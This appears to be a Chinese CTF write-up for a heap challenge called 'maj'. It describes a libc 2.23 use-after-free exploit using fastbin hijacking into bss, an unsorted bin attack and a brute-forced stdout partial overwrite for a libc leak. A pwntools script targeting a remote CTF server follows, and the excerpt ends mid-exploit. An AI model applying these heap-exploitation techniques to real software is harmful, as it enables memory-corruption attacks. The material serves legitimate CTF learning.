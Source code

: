 ### maj
程序无leak。存在free后没置零的问题。
直接double free测没有tcahce，推测为libc 2.23环境。
没有开pie的情况下直接劫持fastbin到bss段。
在add时候提前布置好头，一路分配后写头让chunk能分配到heap_list上。
unsorted bin attack把heap_list部分写上libc地址后，部分改区爆破stdout地址。
通过stdout来leak。
应该是1/16的概率，但似乎有点问题导致实际爆破下来概率低于理论概率。
当然可能是我脸黑

```python
from pwn import *

#r=remote('101.200.53.148',15423)
def add(size,content=''):

    r.sendlineafter('>>','1')

    r.sendlineafter(' the question','80')

    r.sendlineafter('______?',str(size))

    r.sendlineafter('es_or_no?',content)


def free(idx):

    r.sendlineafter('>>','2')

    r.sendlineafter('ndex ?',str(idx))


def edit(idx,content):

    r.sendlineafter('>>','4')

    r.sendlineafter('ndex ?',str(idx))

    r.sendafter('__new_content ?',content)
def gd(cmd=''):
    gdb.attach(r)
    pause()
libc=ELF('./libc-2.23.so')
while True:
    try:
        r=remote('101.200.53.148',15423)
        add(0x100,'\x00'*0xf8+p64(0x71))#0
        add(0x60)#1
        add(0x71)#2
        free(1)
        edit(1,p64(0x000000000603260))
        add(0x0)#3
        add(0x60)#4
        add(0x60)#5 hijack size
        edit(5,p64(0x0)*11+p64(0x71))
        free(1)
        edit(1,p64(0x6032c0))
        add(0x60)#6
        add(0x60)#7 hijack heap list
        free(0)
        edit(0,p64(0)+p64(0x6032e0-0x10))
        add(0x100)#8
        edit(7,p64(0)*2+'\x20'+'\x76')
```